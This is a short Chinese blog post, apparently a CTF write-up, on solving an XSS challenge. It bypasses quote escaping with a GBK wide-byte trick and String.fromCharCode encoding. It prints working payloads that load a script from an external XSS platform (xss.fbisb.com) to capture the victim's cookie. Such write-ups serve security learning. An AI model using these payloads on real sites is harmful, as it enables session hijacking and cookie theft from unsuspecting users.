 ```yaml
---
layout:     post
title:      2019-05-03 收获 总结
subtitle:  ctf xss2解题
date:       2019-05-03
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```

##  0x1 题目描述
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g2oia8uei0j30g30cjgm1.jpg)

## 0x2 所用工具
xss平台。我做题目时，题目中给的xss平台打不开了，我自己又找了一个-[链接](http://xss.fbisb.com/xss.php)

## 0x3 解题步骤
这一道题和xss1的区别是：xss1明确给出了过滤的内容，这道题需要自己测试过滤了什么。输入
```
<script src=http://xss.fbisb.com/TEvn></script>//
```
检查源代码：
![](https://wx1.sinaimg.cn/mw1024/0079f8Holy1g2oia8ce60j30hp091aae.jpg)
可以看出过滤内容：<替换为空白，'替换为\',"替换为\"。所以要将编码绕过。根据源代码提示网页使用GBK字符集，所以用ASCII编码进行绕过。
编码后的payload:
```
%a0%22;document.write(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,104,116,116,112,58,47,47,120,115,115,46,102,98,105,115,98,46,99,111,109,47,84,69,118,110,62,60,47,115,99,114,105,112,116,62));//
```
提交后得到cookie也得到flag.